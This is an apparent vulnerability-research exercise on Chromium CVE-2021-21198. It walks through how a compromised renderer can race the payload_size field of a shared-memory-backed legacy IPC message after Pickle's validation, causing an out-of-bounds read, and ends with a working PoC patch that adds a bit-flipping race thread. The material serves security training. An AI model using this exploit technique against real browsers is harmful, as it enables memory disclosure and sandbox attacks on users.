 # Exercise 6

In LEVEL 1, we can relay on Details and just to search for the func which Details mentioned. It is far away from the real bug hunting scene.

LEVEL 2 we do the same as LEVEL 1 without the help of Details.

But the bug report need Poc to assist developer reproduce the vulnerability, and know exactly what cause this bug. So LEVEL 3 need we construct Poc by ourselves.

## CVE-2021-21198
I sugget you don't search any report about it to prevents get too much info like patch. Our goal is to find some bugs, not construct Poc. But in truth, Poc can proof that we are right.



### Details

In level 3, we do it without the help of Details


---------

<details>
  <summary>For more info click me! But you'd better not do this</summary>

  https://bugs.chromium.org/p/chromium/issues/detail?id=1184399

</details>

--------

### Set environment

after fetch chromium
```sh
git reset --hard 983a7365ebe7fa934fb4660409105bae294d70a5
```



### Related code
```c++
// Typemapped such that arbitrarily large IPC::Message objects can be sent and
// received with minimal copying.
struct Message {
  mojo_base.mojom.BigBuffer buffer;
  array<mojo.native.SerializedHandle>? handles;
};
========================================
union BigBuffer {
  array<uint8> bytes;
  BigBufferSharedMemoryRegion shared_memory;
  bool invalid_buffer;
};
```
ipc/ipc_message_pipe_reader.cc
base/pickle.cc


tips: You just need to think how `shared_memory` can be used to breaking mojo.

### Do it
Do this exercise by yourself, when you have some idea, you can compare your answer with me. If you find my answer have something wrong, please tell me.


---------

<details>
  <summary>My answer</summary>

  ```c++
// Typemapped such that arbitrarily large IPC::Message objects can be sent and
// received with minimal copying.
struct Message {
  mojo_base.mojom.BigBuffer buffer;       [1]
  array<mojo.native.SerializedHandle>? handles;
};
=======================================
union BigBuffer {
  array<uint8> bytes;
  BigBufferSharedMemoryRegion shared_memory;  [2]
  bool invalid_buffer;
};
  ```
  [1] | [2] `BigBuffer` is backed by an `array` of bytes when the message is **small**; but it's backed by `shared memory` if the message is **large**. This means that a malicious renderer can send legacy `IPC messages` backed by `shared memory`.

  ```c++
void MessagePipeReader::Receive(MessageView message_view) {
  if (!message_view.size()) {
    delegate_->OnBrokenDataReceived();
    return;
  }
  Message message(message_view.data(), message_view.size()); [3]
  if (!message.IsValid()) {
    delegate_->OnBrokenDataReceived();
    return;
  }
[ ... ]
  ```
  [3] `ipc::Message` inherits from `base::Pickle`
  ```c++
class IPC_MESSAGE_SUPPORT_EXPORT Message : public base::Pickle {
 public:
//[ ... ]
  // Initializes a message from a const block of data.  The data is not copied;
  // instead the data is merely referenced by this message.  Only const methods
  // should be used on the message when initialized this way.
  Message(const char* data, int data_len);
=============================================
Message::Message(const char* data, int data_len)
    : base::Pickle(data, data_len) {     [4]
  Init();
}
  ```
  The constructor of `Message` call `Pickle`'s constructor
  ```c++
Pickle::Pickle(const char* data, size_t data_len)
    : header_(reinterpret_cast<Header*>(const_cast<char*>(data))),
      header_size_(0),
      capacity_after_header_(kCapacityReadOnly),
      write_offset_(0) {
  if (data_len >= static_cast<int>(sizeof(Header)))     [5]
    header_size_ = data_len - header_->payload_size; 

  if (header_size_ > static_cast<unsigned int>(data_len))
    header_size_ = 0;
[ ... ]
  ```
  [5] after check `payload_size` at this point, we can chenge `payload_size` in Pickle's header by the other side which have the access of `shared_memory`

  Since `base::Pickle` expects to find a `header` at the start of the region, by changing the length field in that header after the checks in the `Pickle` constructor

  ```c++
PickleIterator::PickleIterator(const Pickle& pickle)
: payload_(pickle.payload()),
    read_index_(0),
    end_index_(pickle.payload_size()) {     [6]
}
===================================================
// This class provides facilities for basic binary value packing and unpacking.
//
// The Pickle's data has a header which contains the size of the Pickle's
// payload.  It can optionally support additional space in the header.  That
// space is controlled by the header_size parameter passed to the Pickle
// constructor.
//
class BASE_EXPORT Pickle {
 public:
 //[ ... ]
  // The payload is the pickle data immediately following the header.
  size_t payload_size() const {
    return header_ ? header_->payload_size : 0;    [7]
  }
  ```

  [6] ｜ [7] `PickleIterator`'s `end_index_ == header_->payload_size`, we can use it to oob read

  ```c++
// PickleIterator reads data from a Pickle. The Pickle object must remain valid
// while the PickleIterator object is in use.
class BASE_EXPORT PickleIterator {
 public:
  PickleIterator() : payload_(nullptr), read_index_(0), end_index_(0) {}
  explicit PickleIterator(const Pickle& pickle);

  // Methods for reading the payload of the Pickle. To read from the start of
  // the Pickle, create a PickleIterator from a Pickle. If successful, these
  // methods return true. Otherwise, false is returned to indicate that the
  // result could not be extracted. It is not possible to read from the iterator
  // after that.
  bool ReadBool(bool* result) WARN_UNUSED_RESULT;
  bool ReadInt(int* result) WARN_UNUSED_RESULT;
  bool ReadLong(long* result) WARN_UNUSED_RESULT;
  [ ... ]
  ```
  Set `PickleIterator.end_index_` to a huge num, we can get oob read by these Methods.

  **Poc**

  We can write code in source file

  The attached patch forces all legacy IPC messages sent by renderers to be sent as *shared memory*, and *creates a new thread* in each renderer that *flips the high bits of the payload_size* value for a short period after each message is sent; this has a "reasonable" chance of having valid values to pass through the checks, and then invalid values later on.
  ```diff
diff --git a/ipc/ipc_message_pipe_reader.cc b/ipc/ipc_message_pipe_reader.cc
index 6e7bf51b0e05..2d3b57e7a205 100644
--- a/ipc/ipc_message_pipe_reader.cc
+++ b/ipc/ipc_message_pipe_reader.cc
@@ -6,10 +6,13 @@
 
 #include <stdint.h>
 
+#include <iostream>
 #include <utility>
 
 #include "base/bind.h"
 #include "base/callback_helpers.h"
+#include "base/command_line.h"
+#include "base/debug/stack_trace.h"
 #include "base/location.h"
 #include "base/logging.h"
 #include "base/macros.h"
@@ -18,6 +21,13 @@
 #include "ipc/ipc_channel_mojo.h"
 #include "mojo/public/cpp/bindings/message.h"
 
+std::string GetProcessType() {
+  std::string type = base::CommandLine::ForCurrentProcess()->GetSwitchValueASCII("type");
+  if (type == "")
+    return "browser";
+  return type;
+}
+
 namespace IPC {
 namespace internal {
 
@@ -35,6 +45,10 @@ MessagePipeReader::MessagePipeReader(
   receiver_.set_disconnect_handler(
       base::BindOnce(&MessagePipeReader::OnPipeError, base::Unretained(this),
                      MOJO_RESULT_FAILED_PRECONDITION));
+  if (GetProcessType() == "renderer") {
+    race_thread_ = std::make_unique<base::Thread>("race_thread");
+    race_thread_->Start();
+  }
 }
 
 MessagePipeReader::~MessagePipeReader() {
@@ -49,6 +63,17 @@ void MessagePipeReader::Close() {
     receiver_.reset();
 }
 
+static void race_ipc_message(mojo::ScopedSharedBufferHandle shm_handle) {
+  auto mapping = shm_handle->Map(0x100);
+  fprintf(stderr, "racing\n");
+  volatile uint32_t* ptr = (volatile uint32_t*)mapping.get();
+  for (int i = 0; i < 0x80000; ++i) {
+    *ptr ^= 0x23230000;
+  }
+  *ptr ^= 0x23230000;
+  fprintf(stderr, "done racing\n");
+}
+
 bool MessagePipeReader::Send(std::unique_ptr<Message> message) {
   CHECK(message->IsValid());
   TRACE_EVENT_WITH_FLOW0("toplevel.flow", "MessagePipeReader::Send",
@@ -62,9 +87,27 @@ bool MessagePipeReader::Send(std::unique_ptr<Message> message) {
   if (!sender_)
     return false;
 
-  sender_->Receive(MessageView(*message, std::move(handles)));
-  DVLOG(4) << "Send " << message->type() << ": " << message->size();
-  return true;
+  if (GetProcessType() == "renderer") {
+    auto shm_handle = mojo::SharedBufferHandle::Create(message->size() > 0x1000 ? message->size() : 0x1000);
+    auto shm_handle_copy = shm_handle->Clone(mojo::SharedBufferHandle::AccessMode::READ_WRITE);
+
+    mojo_base::internal::BigBufferSharedMemoryRegion shm_region(std::move(shm_handle), message->size());
+    memcpy(shm_region.memory(), message->data(), message->size());
+    mojo_base::BigBufferView big_buffer_view;
+    big_buffer_view.SetSharedMemory(std::move(shm_region));
+
+    race_thread_->task_runner()->PostTask(FROM_HERE, 
+      base::BindOnce(race_ipc_message, std::move(shm_handle_copy)));
+
+    sender_->Receive(MessageView(std::move(big_buffer_view), std::move(handles)));
+
+    DVLOG(4) << "Send " << message->type() << ": " << message->size();
+    return true;
+  } else {
+    sender_->Receive(MessageView(*message, std::move(handles)));
+    DVLOG(4) << "Send " << message->type() << ": " << message->size();
+    return true;
+  }
 }
 
 void MessagePipeReader::GetRemoteInterface(
diff --git a/ipc/ipc_message_pipe_reader.h b/ipc/ipc_message_pipe_reader.h
index b7f73d2a9aee..6c26987dadcd 100644
--- a/ipc/ipc_message_pipe_reader.h
+++ b/ipc/ipc_message_pipe_reader.h
@@ -15,6 +15,7 @@
 #include "base/component_export.h"
 #include "base/macros.h"
 #include "base/process/process_handle.h"
+#include "base/threading/thread.h"
 #include "base/threading/thread_checker.h"
 #include "ipc/ipc.mojom.h"
 #include "ipc/ipc_message.h"
@@ -106,6 +107,9 @@ class COMPONENT_EXPORT(IPC) MessagePipeReader : public mojom::Channel {
   Delegate* delegate_;
   mojo::AssociatedRemote<mojom::Channel> sender_;
   mojo::AssociatedReceiver<mojom::Channel> receiver_;
+
+  std::unique_ptr<base::Thread> race_thread_;
+
   base::ThreadChecker thread_checker_;
 
   DISALLOW_COPY_AND_ASSIGN(MessagePipeReader);

  ```


</details>

--------
